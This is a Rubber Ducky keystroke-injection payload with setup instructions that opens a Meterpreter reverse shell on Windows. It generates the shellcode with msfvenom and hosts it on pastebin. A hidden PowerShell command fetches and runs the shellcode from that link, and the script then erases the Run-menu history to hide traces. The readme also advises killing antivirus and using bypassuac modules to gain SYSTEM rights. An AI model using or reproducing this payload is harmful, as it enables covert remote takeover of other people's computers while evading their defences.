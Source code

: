 * Author: Finianb1 + @0xCoto

* Target: Windows 10, probably works on Windows 7

* Description: Makes a meterpreter reverse shell by downloading base64 from pastebin. Clears run menu history afterwards.

* Configuration: Generate payload using this command: ```msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f psh-cmd --smallest```  Cut the payload down to JUST the base64. Upload to pastebin, my example: [https://pastebin.com/KQpwbiRS](https://pastebin.com/KQpwbiRS). Then, simply convert this URL to a raw URL by adding a /raw/ in it (https://pastebin.com/raw/KQpwbiRS) or by clicking on the "raw" button and copying the link. Now you have your URL!  
You can URL shorten it if you'd like, just make sure you use the raw link and not the normal pastebin link. Now change the ```$u='YOUR_LINK'``` to your URL (e.g. ```$u='https://pastebin.com/raw/KQpwbiRS'```). Then simply upload it to your rubber ducky, and you can get extremely fast shells.

* NOTE: It is recommended you migrate the shell and kill antivirus as soon as possible, as most antiviruses will pick up on a meterpreter shell and kill it. Running ```getsystem``` command on meterpreter is also great. Use the windows/local/bypassuac modules (find them with the command "search bypassuac", I find that exploit/windows/local/bypassuac_injection_winsxs works very well for my Windows 10 device, disabled antivirus of course!) for Windows 8 and up. This will allow you to bypass the UAC on windows, any level, and be able to freely run the getsystem command.

```
REM Opens a meterpreter using a pastebin link
REM See https://github.com/hak5/bashbunny-payloads/blob/master/payloads/library/remote_access/SingleSecondShell/readme.md
REM For how to create a link to your personal shellcode
DELAY 2000
GUI r
DELAY 1000
STRING powershell -windowstyle hidden $u='YOUR_LINK';$r=Invoke-WebRequest -Uri $u;powershell -nop -e $r.content
ENTER
GUI r
DELAY 1000
STRING powershell -WindowStyle Hidden -Exec Bypass "Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Name '*' -ErrorAction SilentlyContinue"